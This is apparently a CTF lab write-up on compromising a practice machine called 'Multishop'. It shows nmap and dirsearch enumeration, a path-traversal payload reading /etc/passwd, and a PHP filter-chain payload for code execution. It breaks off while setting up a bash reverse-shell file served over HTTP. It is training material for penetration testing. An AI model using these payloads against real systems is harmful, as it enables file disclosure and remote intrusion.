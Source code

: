 ```yaml
---
title: "Multishop"
# date: 2019-04-18T15:34:30-04:00
categories:
  - blog
tags:
  - ctf
  - hacktrace-ranges
  - retired-mechines
---
```



### Affected Endpoint ###
Scope
```
    host/url:10.1.2.140
    Description: Access using hacktrace vpn
```
working time: 30 agustus - 2 september 2024

### Description ###
Background Story: The more you read, the more things you will know. The more you learn, the more places you will visit. 

vulnerability: file inclusion and Misuse of Linux Capabilities.

### Impact ###
Impact File Inclusion & Misuse of Linux Capabilities is:
- Information Disclosure.
- Code Execution.
- Privilege Escalation.
- System Integrity Compromise.

### Step To Reproduce ###
The steps in finding  vulnerability are as follows:
- Information Gathering.
- Enumeration.
- Exploit.
- Privilege escalation.
- Reporting.

### PoC ###
#### Information Gathering ####
Just as usual, we start off with the Nmap scan:
```
nmap -sCV -p- --min-rate=1000 -oN nmap -Pn 10.1.2.140
```
![alt text](/assets/images/hacktrace/multishop/image1.png)
There are two ports open: 22 (SSH), 80 (HTTP). Not having any credentials for the SSH service service, we will start with enumerating port 80. 
Scan directory using dirsearch
``` 
dirsearch -u http://10.1.2.140 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```
![alt text](/assets/images/hacktrace/multishop/image2.png)
Try scanning the directory again, this time it's interesting in the bio
```
dirsearch -u http://10.1.2.140/bio -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```
![alt text](/assets/images/hacktrace/multishop/image3.png)
That's it, nothing interesting, try looking into the url
![alt text](/assets/images/hacktrace/multishop/image4.png)
It looks like there is no upload file, I tried view-page:source
![alt text](/assets/images/hacktrace/multishop/image5.png)
There is a name parameter, this can indicate input validation, let's try to change the value 
```
http://10.1.2.140/bio/?name=../../../etc/passwd
```
![alt text](/assets/images/hacktrace/multishop/image6.png)
It turns out that we can do file inclusion, seen from the response given. 
Referensi file inclusion :
`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md`
after reading through it turns out that file inclusion using wrappers (php: //filter) can be entered, we create the payload using the php_filter_chain_generator.py tool 
```
python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'
```
later the payload will come out and paste it in the parameter name, if you want the book to continue.
![alt text](/assets/images/hacktrace/multishop/image7.png)
And it does, we can continue to rce, but we have to create a file and live python3 -m http.server, the steps are as follows:
1.	Create a file with the name l (fiel that contains revshel bash) why is the name l and does not contain extensions? because so that the payload is not too long, because it is usually an error, the length of url
 ![alt text](/assets/images/hacktrace/multishop/image8.png)

